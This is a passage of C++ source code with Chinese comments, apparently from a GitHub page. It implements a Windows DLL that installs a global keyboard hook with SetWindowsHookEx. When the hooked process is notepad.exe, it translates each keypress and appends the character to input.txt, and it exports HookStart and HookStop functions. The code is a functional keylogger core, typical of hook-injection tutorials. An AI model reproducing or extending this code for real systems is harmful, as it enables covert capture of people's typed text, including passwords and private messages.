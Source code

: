 ```c++
		0,
	};
	char *p = NULL;
	char ch;  //ch存放按键的内容
	FILE *fp; //打开文件流
	//ToAscii函数参数
	byte ks[256];
	GetKeyboardState(ks); //函数功能:该函数将256个虚拟键的状态拷贝到指定的缓冲区中
	WORD w;
	UINT scan = 0;

	if (nCode >= 0)
	{
		// bit 31 : 0 => press, 1 => release
		if (!(lParam & 0x80000000))
		{
			GetModuleFileNameA(NULL, szPath, MAX_PATH);
			p = strrchr(szPath, '\\');
			//若加载当前DLL的进程的可执行文件名称为notepad.exe，则消息不会传递给下一个钩子
			if (!_stricmp(p + 1, "notepad.exe"))
			{
				ToAscii(wParam, scan, ks, &w, 0);
				//函数功能：该函数将指定的虚拟键码和键盘状态翻译为相应的字符或字符串。
				//该函数使用由给定的键盘布局句柄标识的物理键盘布局和输入语言来翻译代码。
				//函数原型：int ToAscii(UINT uVirtKey,UINT uScanCode,PBYTE lpKeyState,LPWORD lpChar,UINT uFlags);
				ch = (char)w;

				fp = fopen("input.txt", "a"); //打开流
				fprintf(fp, "%c", ch);		  //写入文件操作
				fclose(fp);					  //关闭流
											  //return 1;
			}
		}
	}
	// 当前进程不是notepad.exe，将消息传递给下一个钩子
	return CallNextHookEx(g_hHook, nCode, wParam, lParam);
}

#ifdef __cplusplus
extern "C"
{
#endif
	__declspec(dllexport) void HookStart()
	{
		g_hHook = SetWindowsHookEx(WH_KEYBOARD, KeyboardProc, g_hInstance, 0);
	}

	__declspec(dllexport) void HookStop()
	{
		if (g_hHook)
		{
			UnhookWindowsHookEx(g_hHook);
			g_hHook = NULL;
		}
	}
#ifdef __cplusplus
}
#endif
```
